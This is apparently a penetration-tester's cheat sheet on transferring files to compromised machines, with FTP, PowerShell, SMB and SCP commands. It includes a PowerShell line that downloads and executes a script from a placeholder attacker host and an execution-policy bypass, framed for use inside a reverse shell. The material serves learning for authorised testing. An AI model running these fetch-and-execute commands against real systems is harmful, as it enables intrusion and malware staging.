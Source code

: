 # File Transfer

15 Ways to transfer a file
https://blog.netspi.com/15-ways-to-download-a-file/#perl

### FTP
/etc/init.d/pure-ftpd restart

Windows
FTP reverse shell
echo "open <IP>" > ftp.txt  
echo "offsec" >> ftp.txt  
echo "offsec" >> ftp.txt  
echo "bin" >> ftp.txt  
echo "get file.exe" >> ftp.txt  
echo "bye" >> ftp.txt   

ftp -s ftp.txt  

Linux
ftp -4 -d -v ftp://offsec:offsec@127.0.0.1//linuxprichecker.py < ftp upload one liner linux

### Powershell
In Kali
python -m SimpleHTTPServer 80

  Stop services   
  List PID of servies   
    ps -l   
    kill -9 PID   

#### In reverse shell - Windows

powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"

powershell full path:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe

#### Non-interactive execute powershell file

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1

### Smbsever
impacket-smbserver <share name> <path>

net view \\\\\<ip>

### SCP
After login through ssh
scp <fileToUpload> user@remote:/path

